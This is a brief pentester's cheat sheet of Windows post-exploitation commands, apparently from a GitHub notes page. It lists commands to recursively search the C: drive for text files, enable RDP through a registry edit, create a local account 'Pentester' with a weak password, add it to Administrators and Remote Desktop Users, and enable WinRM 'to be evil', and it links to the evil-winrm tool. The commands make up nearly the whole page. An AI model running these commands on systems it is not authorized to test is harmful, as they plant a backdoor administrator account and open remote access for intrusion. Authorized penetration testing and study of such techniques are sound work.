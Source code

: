 * look for stuff
`Get-Childitem -Path C:\ -Include *.txt -File -Recurse -ErrorAction SilentlyContinue`

* enable RDP
`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`

* add user
`net user Pentester Password1 /ADD`

* give admin rights
`net localgroup Administrators Pentester /ADD`

* add to RDP group

`powershell -nop -c "Add-LocalGroupMember -Group "Remote Desktop Users" -Member "Pentester""`

`net localgroup "Remote Desktop Users" Pentester /add`

* Enable winrm to be evil

`Enable-PSRemoting -SkipNetworkProfileCheck -Force`

OR

`winrm quickconfig -y`

guide to evil-winrm: https://github.com/Hackplayers/evil-winrm